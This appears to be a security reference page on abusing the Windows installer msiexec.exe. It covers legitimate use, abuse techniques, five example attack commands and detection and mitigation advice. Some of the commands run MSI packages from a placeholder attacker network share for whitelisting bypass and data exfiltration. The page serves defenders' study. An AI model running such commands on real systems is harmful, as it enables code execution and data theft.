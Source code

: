 # msiexec.exe
## What is it?
*```msiexec.exe``` is the Windows installer service executable, used to install, modify, and remove software packages that are distributed in the MSI (Microsoft Installer) format.*
*It provides functionality to execute .msi files for installation or maintenance tasks, and it’s a trusted system binary often used by legitimate software installations.*

## Legitimate Usage
- **Software Installation** → ```msiexec.exe``` is used by administrators and users to install software packages, run updates, or uninstall programs.
- **Software Maintenance** → It's used to perform repairs or modifications to installed applications (e.g., updates or missing files).
- **Administrative Tasks** → IT administrators use ```msiexec.exe``` to silently install or update software on multiple machines across an enterprise network.

## How to abuse it
- **Execution of Malicious MSI Packages** → Attackers can abuse ```msiexec.exe``` to silently execute malicious MSI files that contain payloads or malware.
- **Bypassing Application Whitelisting** → Since ```msiexec.exe``` is a trusted, signed executable, it can be used to run malicious code even if application whitelisting is in place.
- **Privilege Escalation** → Attackers can abuse the MSI installation process to execute payloads that elevate privileges, especially when administrators execute the MSI package with elevated rights.
- **Persistence Mechanism** → Attackers can create MSI packages that automatically execute malicious payloads upon installation, ensuring persistence on the compromised system.

## Example attacks
### 1. Malicious MSI Installation
*Attackers can craft malicious MSI files that contain payloads designed to run once executed by ```msiexec.exe```.*
**Run Malicious MSI Package**

```
msiexec.exe /i C:\path\to\malicious.msi
```

**Effect:**
- The MSI file is executed, and the embedded malicious payload runs, leading to system compromise or malware installation.

### 2. Bypassing Application Whitelisting
*Because ```msiexec.exe``` is a legitimate, trusted binary, attackers can use it to execute malicious MSI files even in environments where application whitelisting is enforced.*
**Execute Malicious MSI via msiexec.exe**

```
msiexec.exe /i \attacker-server\share\malicious.msi
```

**Effect:**
- The trusted Windows installer runs the malicious MSI file, bypassing application whitelisting or antivirus protections.

### 3. Privilege Escalation via Malicious MSI
*Malicious MSI files can be designed to execute commands or payloads with elevated privileges, leading to privilege escalation.*
**Create and Install Privilege Escalating MSI**

```
msiexec.exe /i C:\path\to\privileged.msi
```

**Effect:**
- The malicious MSI file runs with elevated privileges, potentially granting the attacker administrative rights on the system.

### 4. Persistence via MSI Files
*Attackers can create MSI packages that ensure persistence by embedding malicious payloads that run automatically upon installation.*
**Create MSI to Install Malware on Startup**

```
msiexec.exe /i C:\path\to\malware.msi
```

**Effect:**
- The MSI file installs malware and may add registry keys or tasks that ensure the malware runs on startup, establishing persistence on the system.

### 5. Silent Exfiltration via MSI
*Attackers can use MSI files to silently execute commands that steal data from the system or exfiltrate it without raising alarms.*
**Create MSI for Silent Data Exfiltration**

```
msiexec.exe /i \attacker-server\share\exfil.msi
```

**Effect:**
- The MSI file runs, executing embedded scripts or commands to exfiltrate sensitive data to a remote server, all without user interaction or alerting security software.

# Detection & Mitigation
## Detection Methods
**Monitor for Unusual msiexec.exe Activity**
- **Event ID 4688 (Process Creation)** → Track the execution of ```msiexec.exe``` to ensure it's being used for legitimate purposes.
- **Look for Suspicious MSI Files** → Watch for the execution of MSI files from unusual or temporary locations or network shares.

**Monitor for Elevated Privileges**
- **Event ID 4672 (Special Privileges Assigned to New Logon)** → Detect when ```msiexec.exe``` is executed with elevated privileges or system-level access.

**Detect Silent Installation**
- **Event ID 11707 (MsiInstaller Event)** → Look for suspicious MSI installations that don’t correspond with normal user or administrative activity.

## Mitigation Strategies
- **Application Whitelisting** → Use tools like AppLocker or Device Guard to ensure only trusted executables and MSI files can run.
- **Limit Execution of msiexec.exe** → Restrict access to ```msiexec.exe``` and limit who can run it, especially under elevated privileges.
- **Monitor File Access Logs** → Keep track of where MSI files are being executed from (e.g., network shares or temporary folders) and alert on suspicious behavior.
- **Restrict Network Shares** → Block untrusted network shares from executing MSI files, particularly those that come from external or unknown sources.
- **Block Known Malicious MSI Files** → Use threat intelligence feeds to block known malicious MSI file hashes and signatures.
